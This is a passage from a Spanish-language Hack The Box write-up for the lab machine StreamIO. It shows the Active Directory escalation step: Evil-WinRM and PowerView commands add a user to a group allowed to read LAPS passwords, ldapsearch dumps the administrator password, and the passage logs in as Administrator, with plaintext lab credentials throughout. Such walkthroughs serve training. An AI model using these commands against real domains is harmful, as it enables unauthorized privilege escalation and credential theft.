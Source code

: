Nuestro usaurio tiene el privilegio "Read LAPS password". Primero hay que loeguearse como este usuario para estar en el grupo "Core Staff"  
```console
*Evil-WinRM* PS C:\Users\nikk37\Documents> $pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\nikk37\Documents> $cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)

*Evil-WinRM* PS C:\Users\nikk37\Documents> upload "/home/cucuxii/Maquinas/htb/StreamIO/PowerView.ps1"
*Evil-WinRM* PS C:\Users\nikk37\Documents> Import-Module .\PowerView.ps1

*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "JDgodd"
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainGroupMember -Identity "Core Staff" -Members "JDgodd" -Credential $cred
```
Con LDAPseach podremos dumpear la contraseña del Admin ya que estamos en un grupo que la puede leer. 
```console
└─$ ldapsearch -h 10.10.11.158 -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
ms-Mcs-AdmPwd: 9U8G&7IFcj9#gW
└─$ evil-winrm -i 10.10.11.158 -u 'Administrator' -p '9U8G&7IFcj9#gW'
```

